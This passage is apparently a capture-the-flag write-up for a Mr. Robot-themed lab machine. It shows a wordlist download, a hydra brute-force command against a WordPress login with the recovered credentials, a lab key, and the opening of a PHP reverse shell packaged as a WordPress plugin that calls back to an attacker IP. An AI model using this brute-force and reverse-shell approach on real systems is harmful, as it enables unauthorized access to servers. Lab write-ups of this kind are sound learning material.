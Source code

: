 ```
```

```
kali@kali:~$ curl http://10.10.157.219/fsocity.dic > password.txt
```

### #1 What is key 1?

![](https://imgur.com/kSyfQPC.png)

![](https://imgur.com/ip9jZ1e.png)

```
073403c8a58a1f80d943455fb30724b9
```

### #2 What is key 2?

![](https://imgur.com/bGkyJa4.png)

```
kali@kali:~$ hydra -l Elliot -P password.txt 10.10.157.219 http-post-form "/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=10.10.157.219/wp-admin/&testcookie=1:S=302"
```

```
[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

![](https://imgur.com/h69iWzK.png)

### Now let's implement some php reverse shell.

```php
<?php
/*
Plugin Name:  Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Text Domain: shell
Domain Path: /languages
*/
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.2.228';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
```